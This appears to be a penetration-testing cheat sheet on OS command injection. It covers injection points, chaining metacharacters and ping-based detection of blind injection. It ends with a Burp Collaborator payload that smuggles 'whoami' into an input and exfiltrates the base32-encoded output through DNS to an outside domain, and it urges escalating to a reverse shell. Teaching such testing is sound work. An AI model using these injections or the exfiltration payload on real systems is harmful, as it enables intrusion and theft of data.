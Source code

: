 # Cmd Injection

## Where Would You Find Command Injection

* In the following places:
* Text boxes that take in input
* Hidden URLs that take input
* E.g. `/execute/command-name`
* Or through queries e.g. `/location?parameter=command`
* When using URLs, remember to URL encode the characters that aren’t accepted
* Hidden ports:
* Some frameworks open debug ports that take in arbitrary commands

### Overview

* Use command line symbols within the input to alter the executed command
* Pay close attention to functions within an application that tend to be performed by an OS command
* Two forms exist, blind command injection --> you do not see the returned output, and non-blind cmd injection --> the system command output gets returned back to you
* Ensure you use the proper system commands per the OS

```
cat vs type 
ping -c vs ping -n #ping -n causes an infinte ping loop in linux
ls vs dir
```

* Try to start with reading a world readable file&#x20;

<figure><img src="../.gitbook/assets/image (5).png" alt=""><figcaption></figcaption></figure>

## Non-Blind CMD Inj.

* At the most basic level:
* Use command line symbols within the input to alter the executed command
* Once you have identified a potential injection point, use command line symbols within the input to alter the executed command&#x20;

```
; | || & && > >>
```

<figure><img src="../.gitbook/assets/image (2) (1) (4).png" alt=""><figcaption></figcaption></figure>

* Once you have exploited non-blind cmd injection, escalate to a reverse shell.

### Blind CMD Injection

#### Identification

* ICMP and DNS are useful to determine blind cmd injection&#x20;

```
google.com; ping -c11 127.0.0.1 #server will hang for roughly 10 seconds
```

* Can also try to ping yourself, however many corporate environments have firewalls in place to stop this, so doesn't always mean blind cmd injection isn't taking place&#x20;
* Use `tcpdump` to capture the `icmp` echo requests.

<figure><img src="../.gitbook/assets/image (3) (4).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/image (9).png" alt=""><figcaption></figcaption></figure>

* This proves blind cmd injection, escalate to reverse shell

### Burp Collaborator

* Launch Burp, and choose:

![](<../.gitbook/assets/image (1) (2).png>)

```
Burp --> Burp Collaborator Client
Press --> "Copy to Clipboard" #to copy a randomly generated domain name
Execute your cmd injection
```

* Press `Poll Now` to see if the request came through&#x20;

<figure><img src="../.gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>

* If the above worked, move down to Data Exfil section

### **Data Exfil via DNS and Burp Collaborator**&#x20;

* Once you have your Burp Collaborator Domain, try your command injection&#x20;

```
google.com; a=$(whoami|base32|tr -d =); nslookup $a.COLLAB_DOMAIN_NAME.com
```

* Press Poll now and you should have something returned like this:

```
O53XOLLEMF2GCCQ.323lijijf90304jklksjru43k23.oastify.com
```

* Then type the following in your local terminal&#x20;

```
echo -n O53XOLLEMF2GCCQ | wc -c
```

* If this fails as `Invalid Base32` add 1, or 2 equal signs at the end for padding

```
echo -n O53XOLLEMF2GCCQ= | base32 -d
#output:
www-data
```
